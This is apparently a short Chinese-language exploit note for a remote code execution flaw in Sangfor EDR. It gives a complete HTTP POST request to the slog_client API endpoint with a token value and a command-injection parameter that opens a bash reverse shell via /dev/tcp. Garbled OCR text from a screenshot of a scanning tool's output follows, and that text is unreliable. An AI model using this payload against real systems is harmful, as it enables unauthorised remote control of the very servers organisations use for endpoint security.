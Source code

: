   

3.深信服EDR RCE漏洞
==============

```
POST /api/edr/sangforinter/v2/cssp/slog\_client?token=eyJtZDUiOnRydWV9 HTTP/1.1
Host: xx.x.x.x
Connection: close
Accept-Encoding: gzip, deflate
Accept: \*/\*
User-Agent: python-requests/2.22.0
Content-Length: 77

{"params": "w=123\\"'1234123'\\"|bash -i >& /dev/tcp/ip/port 0>&1"}
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/264068/1599913179645-9f149ba0-fe1f-469f-a689-315ecdde773f.png?x-oss-process=image%2Fresize%2Cw_746 "image.png")

透测试自研工具ythonSAnFODR-E2928912.php

Whoami

Checkinghttps://

166

https:/

vu1nerabile

渗透测试自研工具thoSA22

166

1s

a10

\]Checkinghttps

166

isvuInerabile

\*\]https:

tota1400

4096Sep1219:45

drwxp-x

1oot

1O0t

4096Aug2016:38

13

drwxr-xi-x.
